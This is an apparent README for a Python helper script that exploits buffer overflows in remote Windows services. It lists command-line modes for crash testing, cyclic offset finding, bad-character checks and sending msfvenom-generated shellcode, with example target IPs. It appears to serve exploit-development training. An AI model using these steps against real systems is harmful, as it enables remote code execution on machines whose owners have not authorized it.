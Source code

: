 # Buffer-Overflow

## ig-buffer-overflow.py
* Help functions for exploting a buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting

## Usage

* test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
../ig_buffer_overflow.py test remoteHost remotePort buffSize buffHead
 ../ig_buffer_overflow.py test 10.2.31.155 2050 4096 'cmd2 /.:/'

cyclic - Sends cyclic string to help identify memory positions
 ../ig_buffer_overflow.py cyclic remoteHost remotePort buffSize buffHead
 ../ig_buffer_overflow.py cyclic 10.2.31.155 2050 4096 'cmd2 /.:/'

write - Writes hex value to buffer offset
 ../ig_buffer_overflow.py write remoteHost remotePort buffSize buffHead offset hexcontent
 ../ig_buffer_overflow.py write 10.2.31.155 2048 5009 'cmd2 /.:/' 1203 0A62F809

write - Write badchars (before or after offset content) for badchar verification
 ../ig_buffer_overflow.py write remoteHost remotePort buffSize buffHead offset hexcontent badAfter excludeChars
 ../ig_buffer_overflow.py write remoteHost remotePort buffSize buffHead offset hexcontent badBefore reverseJmpSize excludeChars
 Example: Vanilla Buffer Overflow: ../ig_buffer_overflow.py write 10.2.31.155 2048 5009 'cmd2 /.:/' 1203 0A62F809 badAfter '000a'
 Example: SEH Overwrite: ../ig_buffer_overflow.py write 10.2.31.155 2048 5009 'cmd2 /.:/' 1203 0A62F809 badBefore 800 '00'

exploit - Sends malicious payload via buffer overflow
 ../ig_buffer_overflow.py exploit remoteHost remotePort buffSize buffHead offset hexcontent reverseJmpSize shellCodeFile [nops]
 ../ig_buffer_overflow.py exploit 10.2.31.155 2048 5009 hello 01010101 1203 10 payload

## Parameters:
* [mode] : Script modes: test|cyclic|write|exploit
* remoteHost : Remote host IP.
* remotePort : Remote host port.
* buffSize : Amount of variable bytes to send.
* buffHead : Static buffer string set at the beginning of the buffer. Is usually the crash string. Size is considered in buffSize calc.
* offset : Place in buffer where content can be added.
* hexcontent	: Hex string to add at the offset position. Can be considered as big endian (default) or little endian (will be reversed). Use 'g' or 'l' to delimit the order. Examples:
> * 'g01020304l05060708' --> will send '0102030408070605'
> * '01020304' --> will send '01020304'
* bad* : Adds bad chars before [badBefore] or after [badAfter] the content. Used for bad char testing.
* excludeChars : List of chars (formatted as hex string) to be excluded from badchar list.
* reverseJmpSize : Size in bytes to jump before the content to inject bad chars or the shell code.
* shellCodeFile : Python shell code file generated using msfvenom. Do NOT include the .py extension in the parameter.
> * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f python -v payload EXITFUNC=thread -o shellCodeFile
* nops : Amount of nops to add before and after the shell code. Default is 0.
